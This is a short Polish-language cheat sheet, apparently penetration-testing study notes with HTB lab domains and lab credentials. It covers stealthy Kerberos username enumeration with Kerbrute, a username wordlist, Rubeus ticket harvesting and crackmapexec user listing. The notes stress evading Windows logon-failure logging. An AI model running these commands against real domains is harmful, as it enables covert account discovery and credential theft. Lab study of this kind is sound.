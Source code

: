 # 1) Kerbrute (brute force to jedna ramka UDP to KDC nie generuje eventu zlego logowania)
### Info
To narzędzie wykorzystuje wstępne uwierzytelnianie Kerberos, które jest znacznie szybszym i potencjalnie bardziej niewidocznym sposobem przeprowadzania rozpylania haseł. Ta metoda nie generuje zdarzenia systemu Windows o identyfikatorze 4625: nie udało się zalogować do konta lub błąd logowania, który jest często monitorowany. Narzędzie wysyła żądania biletu TGT do kontrolera domeny bez wstępnego uwierzytelniania Kerberos w celu wyliczenia nazwy użytkownika. Jeśli KDC odpowie błędem PRINCIPAL UNKNOWN, nazwa użytkownika jest nieprawidłowa. Za każdym razem, gdy KDC monituje o wstępne uwierzytelnienie Kerberos, oznacza to, że nazwa użytkownika istnieje, a narzędzie oznaczy ją jako prawidłową. Ta metoda wyliczania nazwy użytkownika nie powoduje błędów logowania i nie blokuje kont. 

### Instalacja
      ▪ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
      ▪ chmod +x kerbrute_linux_amd64
### Enumeracja uzytkownikow (wyslanie jednej ramki UDP do KDC)
      ▪ Nie powoduje to alarmow ani zadnych czerwonych logow
      ▪ ./kerbrute_linux_amd64 userenum --dc <domena> -d <adres domeny> <lista>
      ▪ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

```console
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

# 2) Przydatne slowniki
      • Slownik
            ▪ https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

# 3) Proste zabiegi
      • Rubeus (zbiera TGT wysylane do KDC co 30 sekund)
            ▪ .\Rubeus.exe harvest /interval:30 


# Wylistowanie userow jak mamy poprawne poswiadczenia
```console
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
      
      
      
      
      
      
      
      
      
      
      
